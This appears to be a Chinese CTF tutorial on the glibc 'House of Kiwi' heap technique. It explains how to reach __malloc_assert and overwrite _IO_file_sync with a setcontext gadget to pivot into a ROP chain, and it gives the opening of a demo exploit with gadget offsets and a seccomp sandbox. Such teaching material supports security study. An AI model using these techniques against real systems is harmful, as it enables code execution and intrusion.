 此处会对 top\_chunk 的`size|flags`进行 assert 判断

1.  old\_size >= 0x20;
2.  old\_top.prev\_inuse = 0;
3.  old\_top 页对齐

通过这里也可以触发 assert

进入 assert 后，可以发现 fflush 和 fxprintf 都和 IO 有关，经过调试可以发现在`fflush`函数中调用到了一个指针：位于`_IO_file_jumps`中的`_IO_file_sync`指针，并且发现 RDX 寄存器的值始终为`IO_helper_jumps`指针地址

## 利用条件

1、能够触发 \_\_malloc\_assert

2、能够任意地址写

## 利用思路

通过 largebin attack 等任意地址写的方法，将`_IO_file_jumps + 0x60`的`_IO_file_sync`指针为`setcontext+61`处的特殊 gadget  
修改`IO_helper_jumps + 0xA0 and 0xA8`分别为可迁移的存放有 ROP 的位置和 ret 指令的 gadget 位置

关于特殊 gadget 和 ROP 原理参考文章： [CTF 中 glibc 堆利用 及 IO\_FILE 总结](https://bbs.kanxue.com/thread-272098.htm#msg_header_h3_23)

## 示例

源码来自：[House OF Kiwi-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/235598#h3-1)

```plain
// Ubuntu 20.04, GLIBC 2.32_Ubuntu2.2
//gcc demo.c -o main -z noexecstack -fstack-protector-all -pie -z now -masm=intel
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <assert.h>
#include <unistd.h>
#include <sys/prctl.h>
#include <linux/filter.h>
#include <linux/seccomp.h>
#define pop_rdi_ret libc_base + 0x000000000002858F
#define pop_rdx_r12 libc_base + 0x0000000000114161
#define pop_rsi_ret libc_base + 0x000000000002AC3F
#define pop_rax_ret libc_base + 0x0000000000045580
#define syscall_ret libc_base + 0x00000000000611EA
#define ret pop_rdi_ret+1
size_t libc_base;
size_t ROP[0x30];
char FLAG[0x100] = "./flag\x00";
void sandbox()
{
    prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0);
    struct sock_filter sfi[] ={
        {0x20,0x00,0x00,0x00000004},
        {0x15,0x00,0x05,0xC000003E},
        {0x20,0x00,0x00,0x00000000},
        {0x35,0x00,0x01,0x40000000},
        {0x15,0x00,0x02,0xFFFFFFFF},
        {0x15,0x01,0x00,0x0000003B},
        {0x06,0x00,0x00,0x7FFF0000},
        {0x06,0x00,0x00,0x00000000}
    };
    struct sock_fprog sfp = {8, sfi};
    prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &sfp);
}
```
